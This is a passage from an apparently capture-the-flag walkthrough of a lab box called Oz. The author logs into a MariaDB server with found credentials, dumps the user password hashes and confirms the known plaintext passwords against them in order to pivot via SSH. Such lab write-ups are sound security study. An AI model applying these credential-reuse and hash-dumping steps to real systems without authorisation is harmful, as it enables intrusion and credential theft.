 And I’ll remember from the tickets above that rsa keys for ssh access are in /home/dorthi on the db container.

## Pivot to Oz - Shell As dorthi

I’ve got all the information I need now to get a shell on the main Oz host as dorthi.

### Get SSH Key

#### Connect to Database

First, I need to get the SSH key from the database server. I’ll connect with the creds I have:

```

/app/ticketer # mysql -h 10.100.10.4 -u dorthi -pN0Pl4c3L1keH0me           
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 3                                                
Server version: 5.5.59-MariaDB-1~wheezy mariadb.org binary distribution
                                                                           
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.        
                                                                             
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 
                                                                           
MariaDB [(none)]>

```

There’s not much exciting in it. There’s hashes for the root and dorthi user:

```

MariaDB [mysql]> select host,user,password from user;
+-----------+--------+-------------------------------------------+
| host      | user   | password                                  |
+-----------+--------+-------------------------------------------+
| localhost | root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
| %         | dorthi | *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA |
| %         | root   | *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
+-----------+--------+-------------------------------------------+
3 rows in set (0.01 sec)

```

They won’t crack easily, but I can confirm the passwords I already have:

```

MariaDB [mysql]> select PASSWORD('N0Pl4c3L1keH0me');
+-------------------------------------------+
| PASSWORD('N0Pl4c3L1keH0me')               |
+-------------------------------------------+
| *43AE542A63D9C43FF9D40D0280CFDA58F6C747CA |
+-------------------------------------------+
1 row in set (0.00 sec)

MariaDB [(none)]> select PASSWORD('SuP3rS3cr3tP@ss');
+-------------------------------------------+
| PASSWORD('SuP3rS3cr3tP@ss')               |
+-------------------------------------------+
| *61A2BD98DAD2A09749B6FC77A9578609D32518DD |
+-------------------------------------------+
1 row in set (0.00 sec)

```
